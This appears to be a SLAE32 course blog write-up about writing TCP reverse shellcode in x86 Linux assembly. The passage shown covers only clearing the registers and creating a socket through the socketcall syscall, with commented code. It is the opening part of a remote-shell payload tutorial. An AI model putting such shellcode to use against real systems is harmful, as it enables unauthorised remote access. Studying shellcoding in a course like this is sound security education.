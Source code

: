 ```yaml
---
title: SLAE32 Assignment 2 -- TCP Reverse Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - reverse
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.jpg)


## 1. Clear the registers.
```nasm 
	xor eax, eax	; Clear EAX Register. EAX = 0x00000000
	xor ebx, ebx	; Clear EBX Register. EBX = 0x00000000
	xor ecx, ecx	; Clear ECX Register. ECX = 0x00000000
	xor edx, edx	; Clear EDX Register. EDX = 0x00000000
```  

## 2. Create the Socket.
Create Socket C Function: `int socket(int domain, int type, int protocol);`  
Our C Function:
```c
            socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
EAX=0x66     EBX    ECX[0]     ECX[1]      ECX[2]
```  

```console
cat /usr/src/linux-headers-$(uname -r)/include/linux/net.h
    SOCK_STREAM     = 1
cat /usr/include/i386-linux-gnu/bits/socket.h
		#define AF_INET         PF_INET    // We see that AF_INET is mapped to PF_INET	
		#define PF_INET         2          // IP protocol family.
```  

```nasm
  mov al, 0x66     ; EAX = 0x66 = 102. SYSCAL 102 = socketcall
  mov bl, 0x1      ; EBX = 0x1 = socket() // Create a socket
  push ecx         ; ECX[2] = int protocol = 0. Pushes 0x0 onto the stack
  push ebx         ; ECX[1] - int type = SOCK_STREAM = 0x1. Pushes 0x1 onto the stack
  push 0x2         ; ECX[0] - int domain = AF_INET = PF_INET = 0x2. Pushes 0x2 onto the stack
  mov ecx, esp     ; Point the ECX Register to the Top of the stack
  int 0x80         ; Execute the socket() System Call
  mov esi, eax     ; save the "sockfd" generated from the socket above 
```
